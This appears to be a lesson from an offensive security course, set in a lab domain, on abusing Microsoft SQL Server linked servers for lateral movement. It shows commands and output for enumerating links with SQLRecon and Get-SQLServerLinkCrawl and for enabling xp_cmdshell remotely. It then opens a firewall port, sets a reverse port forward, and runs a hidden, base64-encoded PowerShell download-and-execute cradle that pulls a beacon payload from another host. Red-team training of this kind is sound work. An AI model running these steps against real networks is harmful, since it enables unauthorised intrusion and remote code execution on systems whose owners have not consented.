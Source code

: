 SQL Servers have a concept called "links", which allows a database instance to access data from an external source.  MS SQL supports multiple sources, including other MS SQL Servers.  These can also be practically anywhere - including other domains, forests or in the cloud.

We can discover any links that the current instance has:
```

SELECT srvname, srvproduct, rpcout FROM master..sysservers;
```
  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/3cf/9ba/acf/link.png)

  

This shows that SQL-2 has a link to SQL-1.  The SQLRecon `links` module could also be used.
```
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:links

[*] Additional SQL links on sql-2.dev.cyberbotic.io,1433
name | product | provider | data_source | 
------------------------------------------
SQL-1.CYBERBOTIC.IO | SQL Server | SQLNCLI | SQL-1.CYBERBOTIC.IO |
```
  

We can send SQL queries to linked servers using _OpenQuery_:
```
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select @@servername');

  The use of double and single quotes is important when using OpenQuery.

Or with SQLRecon:

beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:lquery /l:sql-1.cyberbotic.io /c:"select @@servername"

[*] Executing 'select @@servername' on sql-1.cyberbotic.io via sql-2.dev.cyberbotic.io,1433
column0 | 
----------
SQL-1 |
```
  

We can also check the xp_cmdshell status.
```
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:lquery /l:sql-1.cyberbotic.io /c:"select name,value from sys.configurations WHERE name = ''xp_cmdshell''"

[*] Executing 'select name,value from sys.configurations WHERE name = ''xp_cmdshell''' on sql-1.cyberbotic.io via sql-2.dev.cyberbotic.io,1433
name | value | 
---------------
xp_cmdshell | 0 |
```
  

If xp_cmdshell is disabled, you won't be able to enable it by executing sp_configure via OpenQuery.  If RPC Out is enabled on the link (which is not the default configuration), then you can enable it using the following syntax:
```
EXEC('sp_configure ''show advanced options'', 1; reconfigure;') AT [sql-1.cyberbotic.io]
EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT [sql-1.cyberbotic.io]
```

  The square braces are required.

  

We can query SQL-1 to find out if it has any further links.
```
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:llinks /l:sql-1.cyberbotic.io

[*] Additional SQL links on sql-1.cyberbotic.io via sql-2.dev.cyberbotic.io,1433
[+] No results.
```
  

In this case it does not, but manually querying each server to find additional links can be cumbersome and time-consuming.  Instead, `Get-SQLServerLinkCrawl` can automatically crawl all available links and shows you a bit of information for each instance.
```
beacon> powershell Get-SQLServerLinkCrawl -Instance "sql-2.dev.cyberbotic.io,1433"

Version     : SQL Server 2019 
Instance    : SQL-2
CustomQuery : 
Sysadmin    : 1
Path        : {SQL-2}
User        : DEV\bfarmer
Links       : {SQL-1.CYBERBOTIC.IO}

Version     : SQL Server 2019 
Instance    : SQL-1
CustomQuery : 
Sysadmin    : 1
Path        : {SQL-2, SQL-1.CYBERBOTIC.IO}
User        : sa
Links       :
```
  

This output shows that the link from SQL-2 to SQL-1 is configured with a local `sa` account, and that it has sysadmin privileges on the remote server.  Your level of privilege on the linked server will depend on how the link is configured.  It's worth noting that in this particular case, any user who has public read access to the SQL-2 database instance will inherit sysadmin rights on SQL-1.  We do not need to be sysadmin on SQL-2 first.

The `lwhoami` module in SQLRecon can show similar information.
```
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:lwhoami /l:sql-1.cyberbotic.io

[*] Determining user permissions on sql-1.cyberbotic.io via sql-2.dev.cyberbotic.io,1433
[*] Logged in as sa
[*] Mapped to the user dbo
[*] Roles:
 |-> User is a member of public role.
 |-> User is NOT a member of db_owner role.
 |-> User is NOT a member of db_accessadmin role.
 |-> User is NOT a member of db_securityadmin role.
 |-> User is NOT a member of db_ddladmin role.
 |-> User is NOT a member of db_backupoperator role.
 |-> User is NOT a member of db_datareader role.
 |-> User is NOT a member of db_datawriter role.
 |-> User is NOT a member of db_denydatareader role.
 |-> User is NOT a member of db_denydatawriter role.
 |-> User is a member of sysadmin role.
 |-> User is a member of setupadmin role.
 |-> User is a member of serveradmin role.
 |-> User is a member of securityadmin role.
 |-> User is a member of processadmin role.
 |-> User is a member of diskadmin role.
 |-> User is a member of dbcreator role.
 |-> User is a member of bulkadmin role.
```
  

To execute a Beacon on SQL-1, we can pretty much repeat the same steps as previously.  However, note that SQL-1 may only be able to talk to SQL-2 and not to WKSTN-2 or any other machine in the DEV domain.
```
beacon> run hostname
sql-2

beacon> getuid
[*] You are DEV\mssql_svc (admin)

beacon> powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080

beacon> rportfwd 8080 127.0.0.1 80
[+] started reverse port forward on 8080 to 127.0.0.1:80
```
  

You can use xp_cmdshell on a linked server via OpenQuery (note that you need to prepend a dummy query) for it to work.
```
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select @@servername; exec xp_cmdshell ''powershell -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AcwBxAGwALQAyAC4AZABlAHYALgBjAHkAYgBlAHIAYgBvAHQAaQBjAC4AaQBvADoAOAAwADgAMAAvAGIAJwApAA==''')
```
  

Or you can use the "AT" syntax:
```
EXEC('xp_cmdshell ''powershell -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AcwBxAGwALQAyAC4AZABlAHYALgBjAHkAYgBlAHIAYgBvAHQAaQBjAC4AaQBvADoAOAAwADgAMAAvAGIAJwApAA==''') AT [sql-1.cyberbotic.io]
```
  

SQLRecon also has a convenient `lxpcmd` module.

Once the payload has been executed, connect to the Beacon.
```
beacon> link sql-1.cyberbotic.io TSVCPIPE-ae2b7dc0-4ebe-4975-b8a0-06e990a41337
[+] established link to child beacon: 10.10.120.25
```
  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/066/c4e/679/sql-1-beacon.png)